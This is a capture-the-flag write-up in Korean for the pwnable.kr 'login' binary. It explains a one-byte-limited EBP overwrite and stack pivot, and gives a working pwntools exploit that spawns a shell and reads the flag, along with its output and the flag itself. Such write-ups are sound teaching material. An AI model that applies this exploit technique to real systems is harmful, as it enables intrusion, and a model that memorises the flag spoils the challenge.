 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-01-04-16-58-55.png)


# **Write-Up**

32bit 파일에 No PIE이고, Canary가 존재한다.

```sh
root@ubuntu:~# checksec login
[*] '/root/login'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

correct함수에서 eax가 0xDEADBEEF일 때, 쉘을 얻을 수 있다.

![](images/2022-01-04-16-59-35.png)

base64 decoding한 결과의 길이가 0x0C보다 크다면 안된다.

![](images/2022-01-04-16-59-52.png)

decoding한 값의 길이가 0x0C보다 크지 않을 때, main함수의 leave에서 ebp가 decoding한 값의 마지막 4byte가 된다는 취약점이 존재한다. (auth의 memcpy에서 덮어짐)

    Authenticate : QUFBQUJCQkJDQ0ND
    hash : 1980b39bb2ff79fa50f0cade501d60cc

![](images/2022-01-04-17-00-04.png)

retn에 pop eax; ret;을 하기에는 decoding시 자릿 수가 0xC를 넘어가니 ROP은 안될것 같다.

따라서 leave시에 EBP는 input의주소를 넣어서 ESP가 EBP가 되어지고, pop ebp를 하여 input의 중간값이 return되게 한다.

그렇다면 dummy 4byte와 system("/bin/sh")인 0x08049284와 input의 주소인 0x0811EB40를 집어넣으면 되지 않을 까 싶다.

exploit코드를 짜자.

```python
from pwn import *
import base64

r = remote('pwnable.kr', 9003)
r.recvuntil('Authenticate : ')
payload = b'a'*4 + p32(0x08049284) + p32(0x0811EB40)
r.sendline(base64.b64encode(payload))
r.sendline("cat flag")
r.interactive()

[Output]
x] Opening connection to pwnable.kr on port 9003
[x] Opening connection to pwnable.kr on port 9003: Trying 128.61.240.205
[+] Opening connection to pwnable.kr on port 9003: Done
[*] Switching to interactive mode
hash : c5fc1ba27a7a0a06c4c2d650136e7b71
control EBP, control ESP, control EIP, control the world~
```


# **FLAG**

**control EBP, control ESP, control EIP, control the world~**